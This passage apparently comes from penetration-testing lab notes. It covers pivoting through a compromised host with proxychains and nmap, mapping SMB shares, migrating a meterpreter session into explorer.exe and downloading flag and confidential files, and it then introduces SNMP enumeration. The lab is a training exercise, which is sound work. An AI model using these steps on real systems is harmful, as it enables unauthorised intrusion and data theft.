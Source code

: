 Now, let's run nmap with proxychains to identify SMB port (445) on the pivot machine, i.e. demo1.ine.local. We could also specify multiple ports. But, in this case, we are only interested in SMB service.

```shell
proxychains nmap demo1.ine.local -sT -Pn -sV -p 445
```

Now, let's use the net view command to find all resources shared by the demo1.ine.local machine.
Now, we can map the shared drive to the demo.ine.local machine using the' net' command.
Let's map the shared resources, i.e., the Documents and K drive.

```shell
net use D: \\<target_2_IP>\Documents 
net use K: \\<target_2_IP>\K$
```

We successfully mapped the resources to D and K drives.
Let's check what is inside these mapped drives.

```shell
# Interact with the meterpreter session again.
sessions -i 1
shell
net view <second_target_IP>

# We have received the Access is denied. message.
# Well, currently, we are running as NT AUTHORITY\SYSTEM privilege. Let's migrate the process into explorer.exe and reaccess it.
migrate -N explorer.exe
shell
net view <second_target_IP>
```

This time we can see two shared resources. Documents and K drive. And, this confirms that pivot target (demo1.ine.local) allows Null Sessions, so we can access the shared resources. Also, we can achieve the same goal in several ways.

```shell
dir D:
dir K:
# Get the flags and the task is sompleted. Back to meterpreter session
cd D:\\ 
download Confidentia.txt
download FLAG2.txt
```

<br>

### 2.2. SNMP Enumeration ⚗️

SNMP (Simple Network Management Protocol) is a network protocol used for monitoring, managing, and configuring devices like routers, switches, servers, and printers over IP networks. It enables network administrators to collect information, detect faults, and configure network devices remotely through a management system.

In this lab, you will learn to scan the target machine to discover SNMP service and perform information gathering using SNMP nmap scripts and other tools.
